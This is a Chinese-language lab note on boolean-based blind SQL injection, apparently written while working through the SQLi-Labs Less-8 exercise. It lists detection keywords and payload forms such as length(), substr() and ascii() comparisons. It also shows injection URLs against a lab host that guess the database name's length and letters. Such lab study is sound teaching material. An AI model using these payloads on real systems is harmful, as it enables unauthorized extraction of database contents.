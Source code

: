 #### 流量关键字

- and if
- sleep
- length
- ascii
- ord
- substr
- mid

## **基于布尔的盲注**

### **一、判定是否有注入点**

利用页面的细微变化来判定是否有注入点

### **二、常用 payload**

基于布尔型的盲注，我们通常采用下面的办法猜解字符串.

> length(databse());
>
> substr(databse(),1,1);
>
> ascii(substr(database(),1,1));
>
> ascii(substr(database(),1,1))>N;
>
> ascii(substr(database(),1,1))=N;
>
> ascii(substr(database(),1,1))<N;

### **三、Get 基于布尔的盲注**

#### Less-8 布尔盲注

##### 判断数据库名长度

```bash
http://192.168.70.14:8088/Less-8/?id=1' and length(database())=7 --+ 显示空白
http://192.168.70.14:8088/Less-8/?id=1' and length(database())=8 --+ 显示you are in
```

![image-20240805200832770](../../../../repo/assets/19.SQL注入/image-20240805200832770.png)

![image-20240805200630707](../../../../repo/assets/19.SQL注入/image-20240805200630707.png)

##### 判断数据库名

```bash
http://192.168.70.14:8088/Less-8/?id=1' and substr(database(),1,1)='s' --+
```
